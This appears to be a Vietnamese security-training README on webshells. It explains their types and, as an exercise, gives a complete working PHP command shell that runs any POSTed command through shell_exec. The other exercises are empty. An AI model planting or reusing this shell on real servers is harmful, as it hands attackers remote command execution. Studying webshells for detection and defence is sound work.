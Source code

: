 # Lý thuyết

1. Webshell

- Webshell là một loại phần mềm độc hại được sử dụng để kiểm soát máy tính nạn nhân qua các dòng lệnh, được viết bằng các ngôn ngữ như PHP, ASP, JSP, Perl, Python, và Ruby. Webshell cho phép kẻ tấn công thực hiện một số hành động như thêm, xóa, sửa đổi tệp, thực thi mã độc hại, thu thập thông tin nạn nhân và có thể kiểm soát máy nạn nhân.

- Khi máy chủ đã bị nhiễm webshell, kẻ tấn công sẽ truy cập vào máy nạn nhân từ xa qua trình duyệt web hoặc các công cụ quản lý tệp.

2. Các loại webshell

2.1. Cmd shell

- Cmd shell là một loại webshell có khả năng thực thi các dòng lệnh thông qua giao diện dòng lệnh của hệ điều hành(thường dùng hàm shell_exec).

2.2. Http tunnel

- HTTP Tunnel là một loại webshell đặc biệt sử dụng giao thức HTTP để truyền tải các lệnh từ kẻ tấn công đến máy chủ và nhận kết quả trả về thông qua các yêu cầu HTTP. Đây là một loại webshell có khả năng vượt qua các giới hạn về tường lửa hoặc các cơ chế an ninh mạng chặn các kết nối bất thường.

2.3. Chooper

- Chooper cho phép tấn công, thực hiện các hoạt động độc hại và kiểm soát từ xa các hệ thống mà đã được xâm nhập. Chooper có kích thước nhỏ nên khó phát hiện.

2.4. Upload shell

- Upload shell là một kỹ thuật tấn công trong đó kẻ tấn công tải lên một webshell (một đoạn mã độc) lên máy chủ mục tiêu thông qua tính năng tải file của một ứng dụng web. Khi webshell được tải lên thành công và thực thi, nó cho phép kẻ tấn công điều khiển máy chủ từ xa, thực hiện các lệnh hệ thống, truy cập file, hoặc cài đặt phần mềm độc hại.

# Bài tập

1. Cmd shell

- Code

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>

```

- Demo:

<img src = 'https://github.com/NTA06012004/BC-training/blob/main/Week%2012/File%20PNG/1.png'>

2. Http tunnel

- Code:

- Demo:

3. Chooper

- Code:

- Demo:

4. Upload shell

- Code:

- Demo:
